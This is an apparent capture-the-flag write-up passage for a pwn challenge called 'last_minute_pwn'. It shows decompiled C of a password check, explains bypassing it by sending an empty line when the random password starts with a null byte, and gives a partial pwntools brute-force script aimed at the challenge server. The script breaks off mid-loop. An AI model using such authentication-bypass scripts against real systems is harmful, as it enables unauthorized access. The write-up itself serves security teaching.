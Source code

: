 ```c
  char *pcVar2;
  size_t sVar3;
  undefined8 local_638;
  undefined8 local_630;
  char local_28 [32];
  
  local_630 = password[1];
  local_638 = *password;
  puts("Enter password");
  printf(" >> ");
  pcVar2 = fgets(local_28,0x20,stdin);
  if (pcVar2 == (char *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  sVar3 = strcspn(local_28,"\n");
  local_28[sVar3] = '\0';
  iVar1 = strncmp(local_28,(char *)&local_638,0xe);
  return iVar1 == 0;
}
```

Now we can see that if we get the password right we get printed a flag. Look closely at the `authenticate_admin` function and try to find the unintended solution. The trick is to know that strcmp style functions stop comparing when they encouter a nullbyte because they are designed for c-style strings. If our input is just a newline then it gets overwritten as a nullbyte because of the lines:

```c
  sVar3 = strcspn(local_28,"\n");
  local_28[sVar3] = '\0';
```

Now we just need a nullbyte at the beginning of the random password. It's a simple bruteforce that shouldn't take too much time because we only pray for a single byte to equal zero. There's my solve.py script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./last_minute_pwn_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r)
    else:
        r = remote("last_minute_pwn.pwn.umasscybersec.org", 7293)

    return r


def main():
    while True:
        r = conn()
        r.sendline(b'2')
        r.sendline(b'')
        r.recvuntil(b'Login ')
        a = r.recv(1)
        if a == b'f':
```